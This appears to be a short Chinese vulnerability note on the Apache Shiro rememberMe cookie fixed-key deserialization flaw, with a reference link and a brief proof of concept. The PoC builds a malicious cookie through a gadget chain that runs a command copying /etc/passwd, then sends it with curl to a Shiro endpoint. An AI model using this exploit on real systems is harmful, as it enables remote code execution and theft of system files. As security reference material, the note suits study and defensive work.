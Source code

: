 ### Shiro rememberMe cookie 固定秘钥反序列化漏洞

参考链接

* [Apache Shiro Java 反序列化漏洞分析](http://blog.knownsec.com/2016/08/apache-shiro-java/)

Poc

```
# jdku21 gadget

python2.7 build-cookie.py "cp /etc/passwd /tmp"
curl 127.0.0.1/shiro/ -H 'Cookie: `cat /tmp/cookie.txt`'
```

